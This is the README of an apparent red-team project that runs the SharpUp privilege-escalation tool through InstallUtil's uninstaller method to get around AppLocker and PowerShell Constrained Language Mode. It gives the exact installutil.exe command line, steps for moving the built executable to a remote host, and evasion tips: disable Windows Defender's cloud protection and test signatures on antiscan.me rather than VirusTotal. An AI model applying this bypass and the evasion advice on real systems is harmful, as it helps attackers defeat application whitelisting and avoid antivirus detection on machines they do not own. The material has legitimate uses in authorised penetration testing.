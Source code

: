 ## Bypass for Applocker and Powershell Constrained Language Mode via InstallUtil Uninstaller Method to run SharpUp

----


## Usage

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\SharpUp.exe
			
Steps
	
  1)Build the project
  2)Transfer the build exe to the rhost 
  3)Run the executable using InstallUtil -  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\SharpUp.exe
						
```

## Compile Instructions

This Project has been built against .NET 4.0 x64 and is compatible with [Visual Studio 2019 Community Edition]. Simply open up the project .sln, choose "release", and build before the required changes
.

## Notes
* The SharpUp Argument used here is "audit"
* when testing on a windows machine , disable the "Cloud Delivered Protection" , Off
* Use https://antiscan.me/ instead of virus total if you wanna validate the signatures
* You could run any code to bypass Applocker via "public class SharpUp : System.Configuration.Install.Installer" method



## Shout Out

[@harmj0y](https://twitter.com/harmj0y)

* https://github.com/GhostPack/SharpUp

